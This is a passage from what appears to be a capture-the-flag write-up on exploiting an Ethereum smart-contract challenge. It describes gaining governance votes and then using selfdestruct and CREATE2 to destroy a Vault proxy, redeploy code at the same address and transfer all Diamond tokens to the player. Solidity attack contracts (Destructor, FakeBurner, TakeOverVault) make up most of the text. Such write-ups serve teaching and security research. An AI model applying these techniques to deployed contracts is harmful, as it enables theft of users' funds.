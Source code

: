 <br/>

Successful exploitation grants the malicious users with just enough votes to earn the right to call the `governanceCall()` function.

<br />

### `selfdestruct` & `CREATE2` 💣

To deploy a new version of the `Burner` to the same address after its destruction to include a new functionality that would allow us to restore the **Diamonds** taken from the `Vault` after we empty the `Vault` to authorize an upgrade:

1. Define the `Destructor` contract that would execute `selfdestruct` in the context of the `Vault` proxy. This contract utilizes the storage slot used by the proxy implementation in accordance with the [`ERC-1967`](https://eips.ethereum.org/EIPS/eip-1967).
    ```solidity
    contract Destructor {
        function destruct() public {
            selfdestruct(payable(msg.sender));
        }

        function proxiableUUID() external view returns (bytes32) {
            return
                0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
        }
    }
    ```

2. Define the `NeploxDiamond` contract to mimic the `Diamond` contract, the `FakeBurner` contract – for the `Burner` and the `TakeOverVault` – for the `Vault`. The `FakeBurner` does not perform `selfdestruct`, but rather transfers all of its **Diamonds** to the player:
    ```solidity
    contract NeploxDiamond is ERC20 {
        constructor() ERC20("NeploxDiamond", "Neplox") {}
    }

    contract FakeBurner {
        constructor(address player, Diamond diamond) {
            diamond.transfer(player, diamond.balanceOf(address(this)));
        }
    }

    contract TakeOverVault {
        function solve(address player, Diamond diamond) external {
            new FakeBurner(player, diamond);
        }

        function proxiableUUID() external view returns (bytes32) {
            return
                0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc;
        }
    }
    ```

